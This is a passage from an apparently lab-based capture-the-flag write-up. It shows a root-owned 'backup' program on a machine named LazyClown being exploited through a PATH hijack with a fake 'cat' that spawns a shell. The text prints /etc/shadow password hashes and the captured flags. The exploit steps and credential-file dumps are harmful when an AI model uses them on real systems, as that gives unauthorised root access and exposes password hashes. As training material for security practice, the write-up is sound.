-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7 16:27 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7 16:27 .ssh
-r--r--r-- 1 mitsos mitsos   33 Apr 25 06:23 user.txt
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Hmm? It looks like it’s trying to print `/etc/shadow`. Let’s check what is the program doing using `strings`.

```bash
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
...
```

Oh! It’s trying to do `cat /etc/shadow`. Let’s check where is the `cat` command located at.

```bash
mitsos@LazyClown:~$ which cat
/bin/cat
```

The vulnerability here is that the `cat` command is called without it’s full path. Therefore, we can trick the system into calling our own version of `cat`! OwO

Firstly, let’s add `/tmp` to the `$PATH` environment so that it will be the first directory to be checked.

```bash
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ export PATH=/tmp:$PATH
mitsos@LazyClown:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now, we can create a malicious `cat` file to spawn a new shell!

```bash
mitsos@LazyClown:~$ cd /tmp
mitsos@LazyClown:/tmp$ vi cat
mitsos@LazyClown:/tmp$ chmod +x cat
mitsos@LazyClown:/tmp$ cat cat 
#!/bin/sh

/bin/sh
```

Finally, we can execute the `backup` binary file to gain root access!

```bash
mitsos@LazyClown:/tmp$ cd /home/mitsos/
mitsos@LazyClown:~$ ./backup 
# whoami
root
# cat /home/mitsos/user.txt
# PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
# cat /home/mitsos/user.txt
ffedead33b2299f99ac8cbc2dd4eaf3c
# cat /root/root.txt
489332b5fb06c89a9618f082b1b107a2
```

